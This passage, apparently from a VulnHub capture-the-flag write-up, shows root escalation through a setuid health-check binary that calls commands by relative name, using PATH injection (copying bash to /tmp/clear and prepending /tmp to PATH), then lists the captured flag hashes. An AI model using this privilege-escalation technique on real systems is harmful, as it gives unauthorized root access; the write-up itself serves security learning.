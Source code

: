 ```bash
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -
```

This is a simple victory as it is an ideal prospect for $PATH injection. Given that all of these commands are denoted by their relative names and not absolute paths, such as /usr/bin/clear, we can exploit path precedence and obtain a shell as root:

```bash
# Copy the bash binary to /tmp/clear
cp /bin/bash /tmp/clear

# Add /tmp first in path precedence so /tmp/clear resolves first
export PATH=/tmp:$PATH

# Run the binary
/usr/bin/healthcheck
```

By executing the /usr/bin/healthcheck binary, it will function at the `root` user's privilege level within our session, reading binaries from our $PATH environment. We duplicate `/bin/bash` as` /tmp/clear`. Consequently, when `/usr/bin/healthcheck` runs and attempts to activate the clear command, it will resolve clear => `/tmp/clear` instead of `/usr/bin/clear` as we have placed `/tmp` first in our `$PATH` variable.

![](../../assets/img/vulnhub/health8.png)

### Flags

`/home/almirant/user.txt`

>**User**

```
d41d8cd98f00b204e9800998ecf8427e
```


>**Root**

```
root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```
